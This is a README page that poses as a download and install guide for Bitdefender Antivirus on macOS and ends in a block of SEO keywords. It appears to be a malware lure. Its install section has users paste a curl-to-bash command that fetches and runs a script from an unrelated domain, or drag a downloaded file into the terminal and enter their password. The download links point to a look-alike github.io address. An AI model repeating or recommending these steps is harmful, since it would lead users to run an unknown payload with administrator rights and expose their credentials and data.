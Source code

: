 # 🛡️ Bitdefender Antivirus — Advanced Malware Protection for macOS

**Bitdefender Antivirus** offers robust and reliable security for macOS users, protecting your Mac from viruses, malware, ransomware, and online threats. With a light system footprint and real-time threat detection, Bitdefender keeps your MacBook and iMac safe without compromising performance.

Designed to run efficiently on Apple Silicon and macOS Ventura, Bitdefender delivers award-winning antivirus technology combined with intuitive features for peace of mind.

---

## ✅ Download Bitdefender Antivirus for macOS  
[![Download Bitdefender](https://img.shields.io/badge/Download-Bitdefender-blueviolet)](https://bitdefender-antivirus-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 🛡️ What is Bitdefender Antivirus?

Bitdefender Antivirus for Mac is a comprehensive security solution featuring real-time scanning, anti-phishing, and multi-layer ransomware protection. It offers automatic updates and seamless integration with macOS, ensuring your device stays secure against emerging cyber threats.

Trusted globally, Bitdefender delivers powerful virus detection with minimal impact on system resources.

---

## ✨ Features

- 🔍 Real-time antivirus and malware scanning  
- 🛑 Multi-layer ransomware protection  
- 🌐 Anti-phishing and web threat prevention  
- ⚡️ Lightweight and optimized for **macOS Ventura** and **Apple Silicon (M1/M2/M3)**  
- 🔄 Automatic virus definition updates  
- 📊 Security reports and threat analytics  
- 🔧 Easy-to-use interface with minimal configuration  
- 🛡 VPN included for private and secure browsing  

---

## 💡 Why Use Bitdefender Antivirus?

- 🛡 Award-winning antivirus engine for Mac  
- 🚀 Low system impact, runs silently in the background  
- 🖥 Supports the latest Apple hardware and software updates  
- 🔒 Protects personal data from ransomware and phishing attacks  
- 🔄 Continuous updates to defend against new threats  

---

[![Download Bitdefender](https://img.shields.io/badge/Download-Bitdefender-blueviolet)](https://bitdefender-antivirus-mac-download.github.io/.github)

---

## 🖼 Preview

![Bitdefender Screenshot 1](https://i.pcmag.com/imagery/reviews/02z9LOYqJymUDUOqfXwdM87-68..v1733932684.png), ![Bitdefender Screenshot 2](https://www.bitdefender.com/media/uploads/2017/07/new-avfm-scans.png)

---

## 📌 Tags

bitdefender antivirus for mac reviews  
bitdefender antivirus plus mac  
bitdefender antivirus plus for mac  
bitdefender for mac reviews  
bitdefender virus scanner mac  
bitdefender for apple  
bitdefender macos  
bitdefender total security for mac  
bitdefender download mac  
bitdefender for macbook air  
bit defender mac  
bitdefender for mac  
bitdefender antivirus mac  
bit defender mac download  
mac antivirus bitdefender  
bitdefender antivirus mac download  
bitdefender vpn mac  
bitdefender security mac  
macbook pro antivirus bitdefender  
bitdefender malware protection mac  
